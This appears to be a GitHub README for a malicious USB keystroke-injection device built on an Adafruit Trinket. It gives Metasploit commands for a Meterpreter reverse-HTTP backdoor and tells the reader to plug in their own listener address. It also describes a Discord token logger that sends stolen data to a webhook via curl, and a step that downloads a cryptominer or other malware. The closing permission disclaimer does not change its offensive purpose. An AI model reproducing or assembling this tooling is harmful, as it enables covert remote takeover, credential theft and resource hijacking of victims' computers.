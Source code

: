 ## Icey's Script

[The Best USB Rubber Ducky Solution]

The first thing you will need is the device =roughly $40 cheaper then a real ducky=  [Adafruti Trinket](https://www.adafruit.com/product/1501)

Secondly You Will Need The Trinket Keyboard Library Found [Here](https://learn.adafruit.com/pro-trinket-keyboard/library)

Now, you need the IDE found here [IDE](https://learn.adafruit.com/introducing-pro-trinket/setting-up-arduino-ide)

Lastly, you need the [script](https://pastebin.com/raw/wdZ0axP5)

Now, once you have the script in your IDE, you need to make a few edits:
Make a Backdoor in Metasploit with these commands
```
use exploit/multi/handler
set payload windows/meterpreter/reverse_http
set LHOST YOUR-IP-HERE
set LPORT YOUR-PORT-HERE
run -j
```
After that is done, put your ip and port in the ATTACKER_IP section and port in the ATTACKER_PORT section.
Once that is done, change the discord webhook two lines after the "Discord Token LoggerIpTimeName" comment and the webhook at the end of the line that starts with Curl

Now, change the download link under "Bitcoin Miner" to your own direct download link to a miner/other malware

You can also add more exploits yourself with the same format as the others
Once done, plug your device into your PC, make sure it is in 

Once all of this is done, you must do a few more things to upload the script to the device
First: Select the Pro Trinket 5V/16MHz (USB) or Pro Trinket 3V/12MHz (USB) board from the Tools->Board menu
Second: Go into the Tools -> Programmer menu and select the USBtinyISP programmer
Third: Plug in the Trinket, make sure you see the green LED lit (power good) and the red LED pulsing. Press the button if the red LED is not pulsing, to get into bootloader mode.

Click the Upload button (or select File->Upload)

And that’s it! You’re ready to plug in the device. When you plug the device in, once the red flashing indicator has stopped the device has started executing the code.

Enjoy! and remember: only use this on PC's you have permission to use it on
